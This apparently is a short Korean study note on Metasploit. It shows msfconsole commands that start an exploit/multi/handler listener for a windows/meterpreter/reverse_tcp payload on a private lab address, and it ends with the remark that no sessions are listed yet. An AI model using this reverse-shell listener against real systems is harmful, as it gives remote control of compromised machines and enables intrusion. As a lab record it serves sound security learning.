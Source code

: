 ![](./img/MSF.img/0003.png)


```
use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set lhost 192.168.10.128

set ExitOnSession false

exploit -j -z

sessions -l

```
**현재 목록에 아무것도 안나옴** 
